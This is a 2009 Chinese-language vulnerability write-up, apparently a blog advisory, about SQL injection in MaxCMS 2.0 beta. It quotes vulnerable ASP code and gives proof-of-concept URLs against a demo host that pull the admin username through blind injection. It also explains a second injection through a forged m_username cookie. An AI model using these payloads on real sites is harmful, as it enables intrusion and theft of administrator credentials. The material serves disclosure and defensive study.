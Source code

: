```yaml
---
title: 马克斯CMS 2.0 beta (Maxcms)SQL注入漏洞
description: 马克斯CMS2.0beta(Maxcms)SQL注入漏洞关键字：首页-马克斯CMS2.0这个系统是国内非常流行的视频点播系统，之前的1.5版本漏洞非常多，2.0版本在安全方面有所提高，但是依然有漏洞存在。看代码......
date: 2009-02-02 09:46:23
category: 漏洞信息
tags: ['马克斯CMS', '注入', '漏洞信息']
post_id: 770
alias: Maxcms-2.0-beta-SQL-injection
ViewNums: 4065
---
```


[**马克斯CMS 2.0 beta (Maxcms)SQL注入漏洞**](/blog/maxcms-20-beta-sql-injection)

关键字：首页-马克斯CMS2.0

这个系统是国内非常流行的视频点播系统，之前的1.5版本漏洞非常多，2.0版本在安全方面有所提高，但是依然有漏洞存在。

看代码

incajax.asp
```

dim action : action = getForm("action", "get")
response.Charset="gbk"

Select  case action
    case "newslist" : viewNewsList
    case "newscontent" : viewNewsContent
    case "digg","tread" : scoreVideo(action)
    case "reporterr" : reportErr
    case "hit" : updateHit
    case else : main
End Select
terminateAllObjects

……

Sub scoreVideo(operType)
    dim sql,id,digg,returnValue : id=getForm("id","get")
    ‘通过get方式获取id的值
    if rCookie("maxcms2_score"&id)="ok" then die "havescore"
    if isNul(id) then die "err"
    'on error resume next
    digg=conn.db("select m_digg from {pre}data where m_id="&id,"execute")(0)
    ‘ 参数id，没有过滤就带入sql语句进行查询
    if err then digg=0 : err.clear()
    if not isNum(id) then echoSaveStr "safe" else id=clng(id)
    ‘ 查询到digg，注意返回的内容
```
……利用就很简单了，构造sql语句提交（默认结构是m_manager,m_username,m_pwd，根据返回的内容判断就可以了。如果构造的语句是正确的，就返回类似警告

你提交的数据有非法字符，你的IP【xxxx】已被记录,操作

构造的语句不正确，则返回500
Poc :

正确的:
http://demo.maxcms.net/inc/ajax.asp?action=digg&id=1%20and%20(select%20top%201%20asc(mid(m_username,1,1))%20from%20m_manager)=97

不正确的：
http://demo.maxcms.net/inc/ajax.asp?action=digg&id=1%20and%20(select%20top%201%20asc(mid(m_username,1,1))%20from%20m_manager)=99其实随便找个注射工具跑一下就ok了

另外一处注射
```
Sub checkPower
    dim loginValidate,rsObj : loginValidate = "maxcms2.0"
    err.clear
    on error resume next
    set rsObj=conn.db("select m_random,m_level from {pre}manager where m_username='"&rCookie("m_username")&"'","execute")
    loginValidate = md5(getAgent&getIp&rsObj(0))
    if err then wCookie "check"&rCookie("m_username"),"" : die "<script>top.location.href='index.asp?action=login';</script>"
    if rCookie("check"&rCookie("m_username"))<>loginValidate then wCookie "check"&rCookie("m_username"),"" : die "<script>top.location.href='index.asp?action=login';</script>"
    checkManagerLevel  rsObj(1)
    set rsObj=nothing
End Sub其中

Function rCookie(cookieName)
    rCookie = request.cookies(cookieName)
End Function
```
通过伪造cookie中m_username的值可以进行注射

不过要知道后台管理目录，默认是/admin/，多个页面可以触发改函数
比如 /admin/admin_ajax.asp

作者：flyh4t
<http://bbs.wolvez.org>

